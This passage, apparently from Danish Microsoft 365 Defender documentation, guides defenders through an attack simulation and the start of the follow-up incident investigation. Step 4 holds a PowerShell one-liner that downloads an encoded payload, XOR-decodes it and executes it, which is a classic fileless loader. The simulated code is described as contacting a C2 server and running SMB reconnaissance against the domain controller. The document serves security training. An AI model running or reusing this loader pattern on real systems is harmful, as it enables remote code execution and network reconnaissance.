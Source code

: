 3. Åbn et Windows PowerShell vindue på testenheden.

4. Kopiér følgende simuleringsscript:

   ```powershell
   [Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;$xor
   = [System.Text.Encoding]::UTF8.GetBytes('WinATP-Intro-Injection');$base64String = (Invoke-WebRequest -URI "https://winatpmanagement.windows.com/client/management/static/MTP_Fileless_Recon.txt"
   -UseBasicParsing).Content;Try{ $contentBytes = [System.Convert]::FromBase64String($base64String) } Catch { $contentBytes = [System.Convert]::FromBase64String($base64String.Substring(3)) };$i = 0;
   $decryptedBytes = @();$contentBytes.foreach{ $decryptedBytes += $_ -bxor $xor[$i];
   $i++; if ($i -eq $xor.Length) {$i = 0} };Invoke-Expression ([System.Text.Encoding]::UTF8.GetString($decryptedBytes))
   ```

   > [!NOTE]
   > Hvis du åbner denne artikel i en webbrowser, kan du støde på problemer med at kopiere hele teksten uden at miste visse tegn eller introducere ekstra linjeskift. Hvis det er tilfældet, skal du downloade dette dokument og åbne det på Adobe Reader.

5. Indsæt og kør det kopierede script i PowerShell-vinduet.

> [!NOTE]
> Hvis du kører PowerShell ved hjælp af RDP-protokollen (Remote Desktop Protocol), skal du bruge kommandoen Skriv udklipsholdertekst i **RDP-klienten, fordi ctrl-v-genvejstasten** eller metoden højreklik og sæt ind muligvis ikke virker. De seneste versioner af PowerShell accepterer heller ikke denne metode. Det kan være nødvendigt at kopiere til Notesblok i hukommelsen først, kopiere den i den virtuelle maskine og derefter indsætte den i PowerShell.

Nogle få sekunder senere åbnes appen Notesblok. En simuleret angrebskode sprøjtes ind i Notesblok. Hold den automatisk genererede forekomst af Notesblok åben for at opleve hele scenariet.

Den simulerede angrebskode forsøger at kommunikere til en ekstern IP-adresse (simuleret C2-serveren) og forsøger derefter at rekognoscere mod domænecontrolleren via SMB.

Du får vist denne meddelelse i PowerShell-konsollen, når scriptet er fuldført:

```console
ran NetSessionEnum against [DC Name] with return code result 0
```

Hvis du vil se funktionen Automatiseret hændelse og svar i aktion, skal du holde processen notepad.exe åben. Du kan se, at automatiseret hændelse og svar stopper Notesblokprocessen.

### <a name="investigate-the-incident-for-the-simulated-attack"></a>Undersøg hændelsen for det simulerede angreb

> [!NOTE]
> Før vi fører dig gennem denne simulering, kan du se følgende video for at se, hvordan hændelsesstyring hjælper dig med at samle de relaterede beskeder som en del af undersøgelsesprocessen, hvor du kan finde den på portalen, og hvordan den kan hjælpe dig i dine sikkerhedshandlinger:

> [!VIDEO https://www.microsoft.com/videoplayer/embed/RE4Bzwz?]

Hvis du skifter til SOC-analytikerens synspunkt, kan du nu begynde at undersøge angrebet på Microsoft 365 Defender portalen.

1. Åbn <a href="https://go.microsoft.com/fwlink/p/?linkid=2077139" target="_blank">Microsoft 365 Defender-portalen</a>.
